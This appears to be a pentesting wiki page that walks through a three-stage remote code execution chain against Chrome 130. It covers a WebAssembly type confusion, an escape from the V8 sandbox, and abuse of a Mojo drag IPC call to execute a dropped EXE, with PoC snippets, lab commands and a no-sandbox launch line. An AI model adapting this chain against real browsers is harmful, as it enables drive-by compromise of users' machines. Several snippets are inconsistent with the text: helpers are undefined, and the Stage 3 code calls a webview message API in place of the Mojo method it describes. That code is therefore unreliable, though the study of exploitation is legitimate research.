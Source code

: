 # Chrome Exploiting


> This page provides a high-level yet **practical** overview of a modern "full-chain" exploitation workflow against Google Chrome 130 based on the research series **“101 Chrome Exploitation”** (Part-0 — Preface).  
> The goal is to give pentesters and exploit-developers the minimum background necessary to reproduce or adapt the techniques for their own research.

## 1. Chrome Architecture Recap  
Understanding the attack surface requires knowing where code is executed and which sandboxes apply.

```
+-------------------------------------------------------------------------+
|                             Chrome Browser                              |
|                                                                         |
|  +----------------------------+      +-----------------------------+    |
|  |      Renderer Process      |      |    Browser/main Process     |    |
|  |  [No direct OS access]     |      |  [OS access]                |    |
|  |  +----------------------+   |      |                             |    |
|  |  |    V8 Sandbox        |   |      |                             |    |
|  |  |  [JavaScript / Wasm] |   |      |                             |    |
|  |  +----------------------+   |      |                             |    |
|  +----------------------------+      +-----------------------------+    |
|               |           IPC/Mojo              |                       |
|               V                                    |                     |
|  +----------------------------+                   |                     |
|  |        GPU Process         |                   |                     |
|  |  [Restricted OS access]    |                   |                     |
|  +----------------------------+                   |                     |
+-------------------------------------------------------------------------+
```
```
Layered defence-in-depth:

* **V8 sandbox** (Isolate): memory permissions are restricted to prevent arbitrary read/write from JITed JS / Wasm.
* **Renderer ↔ Browser split** ensured via **Mojo/IPC** message passing; the renderer has *no* native FS/network access.
* **OS sandboxes** further contain each process (Windows Integrity Levels / `seccomp-bpf` / macOS sandbox profiles).

A *remote* attacker therefore needs **three** successive primitives:

1. Memory corruption inside V8 to get **arbitrary RW inside the V8 heap**.
2. A second bug allowing the attacker to **escape the V8 sandbox to full renderer memory**.
3. A final sandbox-escape (often logic rather than memory corruption) to execute code **outside of the Chrome OS sandbox**.

---

## 2. Stage 1 – WebAssembly Type-Confusion (CVE-2025-0291)

A flaw in TurboFan’s **Turboshaft** optimisation mis-classifies **WasmGC reference types** when the value is produced and consumed inside a *single basic block loop*.

Effect:
* The compiler **skips the type-check**, treating a *reference* (`externref/anyref`) as an *int64*.
* Crafted Wasm allows overlapping a JS object header with attacker-controlled data → `addrOf()` & `fakeObj()` **AAW / AAR primitives**.

Minimal PoC (excerpt):

```WebAssembly
(module
  (type $t0 (func (param externref) (result externref)))
  (func $f (param $p externref) (result externref)
    (local $l externref)
    block $exit
      loop $loop
        local.get $p      ;; value with real ref-type
        ;; compiler incorrectly re-uses it as int64 in the same block
        br_if $exit       ;; exit condition keeps us single-block
        br   $loop
      end
    end)
  (export "f" (func $f)))
```
```
Trigger optimisation & spray objects from JS:

```js
const wasmMod = new WebAssembly.Module(bytes);
const wasmInst = new WebAssembly.Instance(wasmMod);
const f = wasmInst.exports.f;

for (let i = 0; i < 1e5; ++i) f({});   // warm-up for JIT

// primitives
let victim   = {m: 13.37};
let fake     = arbitrary_data_backed_typedarray;
let addrVict = addrOf(victim);
```
```
Outcome: **arbitrary read/write within V8**.

---

## 3. Stage 2 – Escaping the V8 Sandbox (issue 379140430)

When a Wasm function is tier-up-compiled, a **JS ↔ Wasm wrapper** is generated.  A signature-mismatch bug causes the wrapper to write past the end of a trusted **`Tuple2`** object when the Wasm function is re-optimised *while still on the stack*.

Overwriting the 2 × 64-bit fields of the `Tuple2` object yields **read/write on any address inside the Renderer process**, effectively bypassing the V8 sandbox.

Key steps in exploit:
1. Get function into **Tier-Up** state by alternating turbofan/baseline code.
2. Trigger tier-up while keeping a reference on the stack (`Function.prototype.apply`).
3. Use Stage-1 AAR/AAW to find & corrupt the adjacent `Tuple2`.

Wrapper identification:

```js
function wrapperGen(arg) {
  return f(arg);
}
%WasmTierUpFunction(f);          // force tier-up (internals-only flag)
wrapperGen(0x1337n);
```
```
After corruption we possess a fully-featured **renderer R/W primitive**.

---

## 4. Stage 3 – Renderer → OS Sandbox Escape (CVE-2024-11114)

The **Mojo** IPC interface `blink.mojom.DragService.startDragging()` can be called from the Renderer with *partially trusted* parameters.  By crafting a `DragData` structure pointing to an **arbitrary file path** the renderer convinces the browser to perform a *native* drag-and-drop **outside the renderer sandbox**.

Abusing this we can programmatically “drag” a malicious EXE (previously dropped in a world-writable location) onto the Desktop, where Windows automatically executes certain file-types once dropped.

Example (simplified):

```js
const payloadPath = "C:\\Users\\Public\\explorer.exe";

chrome.webview.postMessage({
  type: "DragStart",
  data: {
    title: "MyFile",
    file_path: payloadPath,
    mime_type: "application/x-msdownload"
  }
});
```
```
No additional memory corruption is necessary – the **logic flaw** gives us arbitrary file execution with the user’s privileges.

---

## 5. Full Chain Flow

1. **User visits** malicious webpage.
2. **Stage 1**: Wasm module abuses CVE-2025-0291 → V8 heap AAR/AAW.
3. **Stage 2**: Wrapper mismatch corrupts `Tuple2` → escape V8 sandbox.
4. **Stage 3**: `startDragging()` IPC → escape OS sandbox & execute payload.

Result: **Remote Code Execution (RCE)** on the host (Chrome 130, Windows/Linux/macOS).

---

## 6. Lab & Debugging Setup

```bash
# Spin-up local HTTP server w/ PoCs
npm i -g http-server
git clone https://github.com/Petitoto/chromium-exploit-dev
cd chromium-exploit-dev
http-server -p 8000 -c -1

# Windows kernel debugging
"C:\Program Files (x86)\Windows Kits\10\Debuggers\x64\windbgx.exe" -symbolpath srv*C:\symbols*https://msdl.microsoft.com/download/symbols
```
```
Useful flags when launching a *development* build of Chrome:

```bash
chrome.exe --no-sandbox --disable-gpu --single-process --js-flags="--allow-natives-syntax"
```
```
---

## Takeaways

* **WebAssembly JIT bugs** remain a reliable entry-point – the type system is still young.
* Obtaining a second memory-corruption bug inside V8 (e.g. wrapper mismatch) greatly simplifies **V8-sandbox escape**.
* Logic-level weaknesses in privileged Mojo IPC interfaces are often sufficient for a **final sandbox escape** – keep an eye on *non-memory* bugs.


## References
* [[https://opzero.ru/en/press/101-chrome-exploitation-part-0-preface/|101 Chrome Exploitation — Part 0 (Preface)]]
* [[https://chromium.org/developers/design-documents/security|Chromium security architecture]]

